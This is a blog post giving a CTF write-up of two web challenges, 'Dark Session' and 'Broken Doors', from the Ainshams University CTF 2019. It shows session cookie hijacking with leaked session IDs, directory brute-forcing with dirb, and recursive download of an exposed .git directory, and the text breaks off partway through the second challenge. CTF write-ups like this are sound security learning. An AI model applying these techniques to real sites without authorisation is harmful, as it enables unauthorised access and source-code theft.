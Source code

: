 ```yaml
---
date: 2019-11-30 23:48:05
layout: post
title: CyberTalents - Ainshams University CTF2019
subtitle: Created by: Mrx-Exploit
description: >-
  It was very easy Web Challenge.
image: >-
  /assets/img/WebCTF/ainshams/banner.jpg
optimized_image: >-
  /assets/img/WebCTF/ainshams/banner.jpg
category: blog
tags:
  - websec
  - cybertalents
  - rce
author: Hazem Hesham
paginate: true
---
```


I will solve the web Challenges in this post so there are two challenge select anyone you need and enjoy  

1. [Dark Session](#dark-session)
2. [Broken Doors](#broken-doors)  

# Dark Session

As the usual I will run dirb  but in i found nothing bad luck xD  

So let's see the the source code  

Yes i found brainFuck encryption  

![image](/assets/img/WebCTF/ainshams/1.png)

So let's decode it [dcode.fr](https://www.dcode.fr/brainfuck-language)  

Awsomme we got something looks useful  
```javascript
if(document.cookie !== ''){        $.post('getuserinfo.php',{          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1](        },function(data){2          cu = data;<        });F      }
```
There are `getuserinfo.php` and it's takes POST data `PHPSESSID= ???`  

So let's see what's inside it  

![image](/assets/img/WebCTF/ainshams/2.png)  

Ahaa it's API Hmmm  

So we need value for PHPSESSID to get the userinfo  

Let's back to `/Dark-Sessions/` and see again on it  

Damn I got this message   
```
Session not found in our secret place , {http://tiny.cc/u16dfz}
```

It's pastbin and there are Secret Sessions
```
#Secret_Sessions#
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```
So let put it in Cookie and see what will happen  

```bash
GET /Dark-Sessions/ HTTP/1.1
Host: 54.93.122.202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ar,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=11l3ztdo96ritoitf9fr092ru3
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
Shit I got anther message 
```
UserInfo Cookie don't have the username , you need to go deeper... 
```
I think i need to get the username and put it in Cookie too in UserInfo   

So let's try to send the session in the API and let's see what will happen  

![image](/assets/img/WebCTF/ainshams/3.png)

Awsome i got the username it's so easy  

let's put it in the Cookie  

![image](/assets/img/WebCTF/ainshams/4.png)

Woow it's so easy we got the flag
```
Secret_session_gained_succefully
```
# Broken doors

As the usual I will run dirb  

```Bash
root@kali:~/Desktop# dirb http://18.197.166.159/Broken-doors/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Nov 30 12:15:24 2019
URL_BASE: http://18.197.166.159/Broken-doors/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4614

---- Scanning URL: http://18.197.166.159/Broken-doors/ ----
+ http://18.197.166.159/Broken-doors/.git/HEAD (CODE:200|SIZE:23)
^C> Testing: http://18.197.166.159/Broken-doors/_tempalbums
```
Yes I got .git so lets download it

```Bash
root@kali:~/Desktop/cyber# rm .git
root@kali:~/Desktop/cyber# mkdir git
root@kali:~/Desktop/cyber# cd git
root@kali:~/Desktop/cyber/git# wget -r http://18.197.166.159/Broken-doors/.git/
--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/
Connecting to 18.197.166.159:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/.git/index.html’

18.197.166.159/Brok     [ <=>                ]   1.39K  --.-KB/s    in 0s

2019-11-30 10:56:36 (71.8 MB/s) - ‘18.197.166.159/Broken-doors/.git/index.html’ saved [1420]

Loading robots.txt; please ignore errors.
--2019-11-30 10:56:36--  http://18.197.166.159/robots.txt
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 404 Not Found
2019-11-30 10:56:36 ERROR 404: Not Found.

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/index.html’

18.197.166.159/Brok     [ <=>                ]   2.47K  --.-KB/s    in 0s

2019-11-30 10:56:36 (5.19 MB/s) - ‘18.197.166.159/Broken-doors/index.html’ saved [2531]

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/branches/
```
```Bash
root@kali:~/Desktop/cyber/git/18.197.166.159# cd Broken-doors/
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls
index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls -la
total 16
drwxr-xr-x 3 root root 4096 Nov 30 10:56 .
drwxr-xr-x 3 root root 4096 Nov 30 10:56 ..
drwxr-xr-x 8 root root 4096 Nov 30 10:56 .git
-rw-r--r-- 1 root root 2531 Nov 30 10:56 index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# cd .git
root@kali
```